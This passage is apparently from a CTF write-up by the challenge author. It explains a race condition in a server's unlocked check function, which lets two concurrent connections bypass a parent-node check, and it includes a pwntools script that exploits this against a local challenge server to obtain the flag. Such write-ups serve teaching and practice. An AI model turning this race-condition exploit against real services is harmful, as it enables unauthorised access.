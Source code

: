 ```python
	tot_v_ += v[i]
	tot_w_ += w[i]
print 'v: %d w: %d'%(tot_v_, tot_w_)
```
Encode the result `[0, 1, 3, 5, 10, 11, 16, 25, 26, 28, 31, 32, 35, 52, 56, 59, 76, 91, 97]` to get the flag.
### Solution 2
There is also a `race condition` in server's logic.
There's no concurrency lock in `check` function, and nodes' flag are modified inside it.
There is also a long time interval between flags are cleaned and flags are checked when decrypting the base64 table with 1024 rounds RC4, which makes race condition easy to exploit.
So we want to find a timing that **in one connection**, we choose an node to make its flag true and then **in another connection** we choose its child so that we don't need to choose itself to bypass the father check.
Examine the tree, we can find node93 has a big weight and its children has huge values.
So the idea is to create a connection to choose node93, and then another connection choose its children:
```python
from pwn import *
import thread
import time

context.log_level = 'debug'
addr = '127.0.0.1'
port = 30754

while 1:
    conn0 = remote(addr, port)
    conn = remote(addr, port)
    
    conn0.sendline('5h5onKKf+doEhA==') # [0,3,8,23,44,66,81,93,98,99]
    conn.sendline('5hSKHUU=') # [0,4,13,98,99]

    x = conn.recvall()
    if 'N1CTF' in x:
        print x
        exit(0)
    conn.close()
    conn0.close()

```
After a few attempts, you get the two flags with ease

Nobody solved in this way, maybe I should made the tree more complicated..
